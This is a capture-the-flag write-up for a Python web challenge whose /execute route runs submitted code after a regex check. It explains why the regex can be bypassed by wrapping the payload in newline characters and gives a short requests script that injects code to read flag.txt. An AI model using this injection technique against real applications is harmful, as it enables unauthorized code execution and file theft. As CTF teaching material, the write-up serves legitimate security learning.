 # Main idea

It is simple web app on python with single route `/execute`:

![](../../attachments/Pasted%20image%2020240115133516.png)

It is a form with one parameter `code`.

# Solution

If our payload in `code` parameter passes the regular expression it will execute python code.

Lets break down regular expression to execute our code.

- `.*` : This part of the pattern matches any character (except a newline) 0 or more times.
- `[\x20-\x7E]` : This is a character set that matches any character in the range from `\x20` to `\x7E`. This range includes all printable ASCII characters.
- `+` : This means one or more of the preceding element. In this case, it refers to one or more of any character in the range `\x20` to `\x7E`.
- `.*` : Again, this part of the pattern matches any character (except a newline) 0 or more times.

So, the entire regular expression `".*[\x20-\x7E]+.*"` will match any string that has one or more printable ASCII characters anywhere, except first and last character.

According to this information we can crate our payload.

Solution script:

```python
import requests

# url = "https://uoftctf-no-code.chals.io/execute"
url = "http://localhost:1337/execute"

r = requests.post(url, data={'code': b'\nopen("flag.txt", "r").read()\n'})

print(r.text)
```

Our payload passes the regex beacause first and last charracters are new line characters `\n`.

And boom we get the flag.

![](../../attachments/Pasted%20image%2020240115134526.png)

